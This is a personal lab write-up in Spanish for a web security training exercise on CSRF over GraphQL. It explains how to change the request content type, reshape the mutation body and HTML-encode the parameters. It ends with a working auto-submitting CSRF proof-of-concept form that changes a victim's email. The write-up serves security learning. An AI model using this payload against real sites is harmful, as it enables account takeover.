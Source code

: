 ![[Pasted image 20250220094958.png]]
![[Pasted image 20250220095006.png]]

### LAB: Performing CSRF exploits over GraphQL

* La aplicacion originalmente el endpoint de cambiar email está en `content-type: application/json` realmente para generar el CSRF lo debemos cambiar a 
	`Content-Type:x-www-form-urlencoded`

```js
Attempt a CSRF of changeEmail or similar
1. -> Change Content-Type to x-www-form-urlencoded
2. -> Change body to correct syntax:
query=mutation($input: ChangeEmailInput) {
				changeEmail(input: $input) {
				    email
				}
}
&variables={"input":{"email":"picha@test.com"}}
3. -> Generate CSRF PoC
//Cambiar el email importante para que se pueda dar el ataque. 
```

##### EL ERROR QUE ME ESTABA CAUSANDO LA NO SOLUCIÓN DEL LAB:
Cuando tenía toda la request lista y creaba la CSRF POC, realmente como habían saltos de linea o espacios se tomaban como nuevas variables las cuales efectivamente llevaban el ataque de forma errada y por eso ni en el test me funcionaba, lo que debía hacer era ajustar el payload CSRF POC con cada variable con sus values correctos codificados en html, `query,operationName,variables` .

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5a0099035239c4837eb97f008000d4.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="&#x6d;&#x75;&#x74;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x20;&#x63;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x28;&#x24;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x3a;&#x43;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x49;&#x6e;&#x70;&#x75;&#x74;&#x21;&#x29;&#x7b;&#x0a;&#x63;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x28;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x3a;&#x24;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x29;&#x7b;&#x65;&#x6d;&#x61;&#x69;&#x6c;&#x0a;&#x7d;&#x0a;&#x7d;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#x7b;&#x22;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x22;&#x3a;&#x7b;&#x22;&#x65;&#x6d;&#x61;&#x69;&#x6c;&#x22;&#x3a;&#x22;&#x68;&#x61;&#x63;&#x6b;&#x65;&#x72;&#x2d;&#x74;&#x65;&#x73;&#x74;&#x66;&#x69;&#x6e;&#x61;&#x6c;&#x40;&#x6e;&#x6f;&#x72;&#x6d;&#x61;&#x6c;&#x2d;&#x75;&#x73;&#x65;&#x72;&#x2e;&#x6e;&#x65;&#x74;&#x22;&#x7d;&#x7d;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
